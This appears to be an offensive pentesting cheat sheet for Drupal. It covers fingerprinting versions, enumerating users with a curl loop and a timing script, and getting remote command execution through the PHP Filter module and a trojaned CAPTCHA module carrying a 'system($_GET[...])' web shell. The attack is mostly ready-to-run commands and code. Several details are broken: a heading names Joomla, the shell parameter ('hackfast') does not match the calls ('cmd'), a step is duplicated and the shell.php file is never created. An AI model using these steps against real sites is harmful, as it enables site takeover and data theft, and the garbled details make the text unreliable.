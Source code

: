### **INTRODUCTION**

Drupal is a free and open-source content management system (CMS) used to build and manage websites. It's written in PHP and provides a backend framework for at least 2.3% of all websites worldwide, from personal blogs to corporate, political, and government sites.


### **IDENTIFYING JOOMLA VERSION**

1.  View the CHANGELOG.txt file to identify the Drupal version:  
    `http://[DRUPAL-DOMAIN]/CHANGELOG.txt`
2.  For Drupal 8 and above, the core/CHANGELOG.txt file can be used to determine the version:  
    `http://[DRUPAL-DOMAIN]/core/CHANGELOG.txt`
3.  The drupal.js file may contain version information:  
    `http://[DRUPAL-DOMAIN]/misc/drupal.js`
4.  Check the page source for meta tags indicating the Drupal version:  
    `<meta name="generator" content="Drupal 7 (http://drupal.org)" />`
5.  Droopescan is a scanner that can enumerate Drupal installations  
    `droopescan scan drupal -u http://[DRUPAL-DOMAIN]`
6.  Nmap, with the http-drupal-enum script, can be used to enumerate Drupal installations  
    `nmap -sV --script http-drupal-enum --script-args http-drupal-enum.basepath=/ http://[DRUPAL-DOMAIN]`

### **USER ENUMERATION TECHNIQUES**

1.  Analyze error messages to identify existing user accounts. Drupal redirects to user pages if the account exists:  
    `for i in {1..10}; do curl -s -o /dev/null -w "%{http_code}" http://[DRUPAL-DOMAIN]/user/$i; done`
    
2.  Measure response times for different user actions to infer the existence of user accounts:
    
    ```python
    import requests
    import time
    
    def measure_response_time(url, data):
        start_time = time.time()
        response = requests.post(url, data=data)
        end_time = time.time()
        return end_time - start_time
    
    user_exists = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'existing_user', 'password': 'wrong_password'})
    user_not_found = measure_response_time('http://[DRUPAL-URL]/login', {'username': 'nonexistent_user', 'password': 'wrong_password'})
    print('Existing user:', user_exists, 'Nonexistent user:', user_not_found)
    ```
    
3.  Check for user-specific customization or redirections. If redirects to a login page for non-existent users and to a dashboard for existing users, this could be a potential vector for username enumeration.  
    `http://[DRUPAL-DOMAIN]/users/[USERNAME]`
    
4.  Droopescan can also be used to check for user enumeration  
    `drupal -u http://[DRUPAL-DOMAIN] --enumerate u`
    
5.  Investigate forums, articles, and comments on the target Drupal site. Users often leave traces or use similar usernames across different platforms.
    
6.  If the Drupal site has JSON API  you might be able to retrieve user information:  
    `curl -s http://[DRUPAL-DOMAIN]/jsonapi/user/user | jq`  
    Look for unique identifiers or username fields in the JSON response.
    

### **PHP CODE EXECUTION IN FILTER MODULE DRUPAL**

### **STEP 1. ENABLE THE PHP FILTER MODULE**

1.  Access the module administration panel by navigating to:  
    `http://[DRUPAL-DOMAIN]/#overlay=admin/modules`
2.  Locate and enable the PHP Filter module, then save the configuration.

### **STEP 2. CREATE A PAGE WITH PHP CODE**

1.  Navigate to the Content Creation Section:  
    `http://[DRUPAL-DOMAIN]/#overlay=node/add`
2.  Add a new Basic page, place the following PHP code to test command execution:  
    `<?php system($_GET['hackfast']); ?>`
3.  Ensure that the text format is set to "PHP code".
4.  Save the page. Note the URL of the newly created page, for example:  
    `http://[DRUPAL-DOMAIN]/node/1`

### **STEP 3: EXECUTE COMMANDS ON THE NEW PAGE**

1.  To run commands, add a query string with the command you wish to execute, such as:  
    `http://[DRUPAL-DOMAIN]/node/1?cmd=id`
2.  Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/node/1?cmd=id'`

### **STEP 4: MODIFY AND UPLOAD A MODULE WITH A WEB SHELL**

1.  Download a module from Drupal.org, e.g., CAPTCHA:  
    `wget https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz`
    
2. Unzip the file:  
    `tar xvf captcha-8.x-1.2.tar.gz`
    
3. Add a PHP web shell into one of the PHP files:  
    `<?php system($_GET['cmd']); ?>`
    
4. Create a .htaccess file. This allows bypassing Drupal default access controls:
    
    ```
    <IfModule mod_rewrite.c>
      RewriteEngine On 
      RewriteBase /  
    </IfModule>
    ```
    
5. Place this file in the root directory of the modified module.
    
6. Repackage the modified module:  
    `tar cvf modified_captcha.tar.gz captcha/`
    
7. Upload the module through the Drupal admin interface.  
    `tar cvf modified_captcha.tar.gz captcha/`
    
8. Install the module.
    
9. Navigate to the web shell URL and add the command:  
    `http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id`
    
10. Or use curl to execute the command from the terminal:  
    `curl 'http://[DRUPAL-DOMAIN]/modules/captcha/shell.php?cmd=id'`
